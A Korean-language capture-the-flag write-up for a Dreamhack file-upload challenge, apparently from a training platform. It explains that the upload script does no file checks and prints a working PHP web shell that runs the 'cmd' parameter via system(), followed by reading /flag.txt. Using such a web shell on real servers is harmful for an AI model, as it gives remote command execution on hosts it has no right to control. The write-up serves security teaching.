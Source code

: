 ## 해설
### 웹서비스 분석
---
#### 인덱스 페이지
**index.php**는 이동하는 메뉴를 출력한다.
#### 파일 목록 리스팅
**list.php**는 `$directory`의 파일들 중 `.`, `..`, `index.html`을 제외하고 나열한다.
#### 파일 업로드
**unpload.php**는 이용자가 업로드한 파일을 `uploads`폴더에 복사하며, 이용자는 `http://host1.dreamhack.games:[PORT]/uploads/[FILENAME]` URL을 통해 접근할 수 있다. 업로드할 파일에 대해 어떠한 검사도 하지 않으므로, 웹 셸 업로드 공격에 취약하다. 
### 익스플로잇
---
#### php 웹 셸 업로드
웹 셸을 업로드하고, 방문하면 서버의 셸을 획득할 수 있다.
```php
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?></pre></body></html>
```
#### flag 획득
`cat /flag.txt`로 플래그를 획득한다.